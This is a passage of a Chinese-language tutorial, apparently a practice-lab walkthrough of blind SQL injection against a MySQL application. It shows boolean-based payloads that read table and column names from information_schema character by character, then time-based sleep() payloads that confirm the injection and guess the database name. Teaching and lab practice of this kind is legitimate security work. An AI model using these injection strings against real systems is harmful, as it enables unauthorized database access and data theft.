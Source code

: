 1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<109 # 显示存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103 # 显示不存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # 显示不存在

说明第一个表的名字的第一个字符为小写字母g。

…

重复上述步骤，即可猜解出两个表名（guestbook、users）。

4.猜解表中的字段名

首先猜解表中字段的数量：

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=1 # 显示不存在

…

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 # 显示存在
说明users表有8个字段。

接着挨个猜解字段名：

1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 # 显示不存在

…

1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7 # 显示存在

说明users表的第一个字段为7个字符长度。

采用二分法，即可猜解出所有字段名。

5.猜解数据

同样采用二分法。

还可以使用基于时间的盲注：

1.判断是否存在注入，注入是字符型还是数字型

输入1’ and sleep(5) #，感觉到明显延迟；

输入1 and sleep(5) #，没有延迟；
说明存在字符型的基于时间的盲注。

2.猜解当前数据库名

首先猜解数据名的长度：

1’ and if(length(database())=1,sleep(5),1) # 没有延迟

1’ and if(length(database())=2,sleep(5),1) # 没有延迟
